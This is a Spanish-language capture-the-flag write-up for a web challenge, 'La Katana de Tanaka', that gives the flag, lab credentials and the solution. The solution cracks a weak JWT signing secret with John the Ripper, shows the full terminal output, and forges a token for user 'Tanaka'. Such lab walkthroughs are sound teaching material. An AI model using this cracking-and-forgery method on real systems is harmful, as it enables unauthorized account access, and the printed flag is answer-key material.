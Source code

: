 # La Katana de Tanaka

* Web
* Author: NikNitro!
* Medio
* flags: - jwt_pwned_Tanaka
c8a1a69bc80df8c69033374db70e3390 

## Descripción
Para salvar a tu señor, debes obtener la legendaria Katana Mortal, un arma de poder incalculable custodiada en un santuario secreto. Solo los Maestros Shinobi tienen el derecho de blandirla. La katana se enncuentra en el castillo del general Juji Wu Tanaka, el cual parece infranqueable.  Si eres lo suficientemente astuto, podrás forjar un camino hacia la Katana. El destino de tu señor está en tus manos... ¿podrás engañar al general Juji Wu Tanaka y reclamar la espada antes de que sea demasiado tarde?

Tus credenciales de acceso son: "shinobi:kuro".
## WriteUp

Tras logarnos en la web veremos que no podemos acceder a la katana. Las cookies son tipo JWT. Si las copiamos y las pasamos por john the ripper no va a tardar mucho en escupirnos la clave:
```bash
┌──(niknitro@laptop)-[/tmp]
└─$ john clave.txt --wordlist=/usr/share/wordlists/fasttrack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
changeme         (?)     
1g 0:00:00:00 DONE (2024-10-01 15:23) 33.33g/s 8733p/s 8733c/s 8733C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Teniendo la contraseña `changeme` podemos crear un token nuevo, por ejemplo con https://jwt.io/, con el username "Tanaka" y accederemos sin problemas a la katana.
